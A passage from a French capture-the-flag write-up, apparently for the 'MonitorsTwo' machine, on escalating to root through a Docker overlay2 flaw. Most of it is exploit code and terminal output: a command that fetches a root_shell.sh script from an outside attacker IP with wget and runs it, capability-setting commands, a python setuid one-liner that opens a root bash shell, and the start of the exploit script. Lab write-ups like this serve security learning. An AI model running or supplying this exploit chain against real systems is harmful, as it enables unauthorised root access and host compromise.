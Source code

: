 Ensuite on lui donne les capacités `setcap cap_setgid,capsetuid+eip beroot` et on l'exécute depuis l'hôte.

Exploit (avec bash) :
```bash
marcus@monitorstwo:~$ rm root_shell.sh* && wget http://10.10.14.97:4343/root_shell.sh && chmod +x root_shell.sh && ./root_shell.sh 
--2023-06-13 17:40:53--  http://10.10.14.97:4343/root_shell.sh
Connecting to 10.10.14.97:4343... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1719 (1.7K) [application/x-sh]
Saving to: ‘root_shell.sh’

root_shell.sh                                              100%[========================================================================================================================================>]   1.68K  --.-KB/s    in 0.001s  

2023-06-13 17:40:53 (2.88 MB/s) - ‘root_shell.sh’ saved [1719/1719]

Docker on the host is vulnerable
You need to be root the docker container.
To do so, you can try various technics.
If you have capsh installed on it, just do "capsh --gid=0 --uid=0 --"

Then, just chmod u+s on /bin/bash to set the suid bit on it.
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities
You can also make a small program.
If you have wget or curl, just import and compile be_root.c on the container.
Then just set the capabilities on the program :
setcap cap_setgid,cap_setuid+eip beroot
Other example : setcap cap_setuid+ep /usr/bin/python3.8
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash");'
When 'chmod u+s bash' is done, press a key : 
/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged/bin/bash: error while loading shared libraries: libtinfo.so.5: cannot open shared object file: No such file or directory
bash-5.1# whoami
root
bash-5.1# cd /root
bash-5.1# ls
cacti  root.txt
bash-5.1# 
```


Code :

```bash
#!/usr/bin/env bash

function is_vulnerable
{
	version=$(docker version 2>/dev/null | grep Version | awk '{print $2}' | cut -d '+' -f 1)
	if [ $(echo ${version} | cut -d '.' -f 1) -le 20 ];then
		if [ $(echo ${version} | cut -d '.' -f 2) -le 10 ];then
			if [ $(echo ${version} | cut -d '.' -f 3) -lt 9 ];then
				echo "Docker on the host is vulnerable"
				return 1
			fi
		fi
	fi
	echo "Docker on the host is not vulnerable"
	exit 1
}

function find_path
```